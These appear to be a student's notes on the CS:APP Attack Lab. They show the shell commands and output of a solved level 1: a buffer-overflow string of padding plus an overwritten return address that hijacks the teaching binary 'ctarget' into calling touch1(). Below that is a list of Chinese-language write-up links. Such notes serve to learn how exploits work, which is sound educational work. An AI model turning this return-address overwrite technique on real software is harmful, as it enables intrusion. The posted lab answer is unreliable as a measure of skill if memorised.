 ```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
- 一些可以参考的链接
	- [zhuanlan.zhihu.com/p/476396465](https://zhuanlan.zhihu.com/p/476396465)
	- [【CSAPP】AttackLab-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2389328)
	- [【深入理解计算机系统】CSAPP-实验三：AttackLab详解\_attacklab实验三-CSDN博客](https://blog.csdn.net/qq_42234461/article/details/108661775)
	- [Site Unreachable](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
	- [CSAPP-Lab-3 实验报告: attacklab | 一隅](https://tqnwhz.github.io/blog/2023/12/04/CSAPP-Lab-3)
	- [zhuanlan.zhihu.com/p/104340864](https://zhuanlan.zhihu.com/p/104340864)
- 栈溢出
	- [zhuanlan.zhihu.com/p/25816426](https://zhuanlan.zhihu.com/p/25816426)
	- [zhuanlan.zhihu.com/p/25892385](https://zhuanlan.zhihu.com/p/25892385)
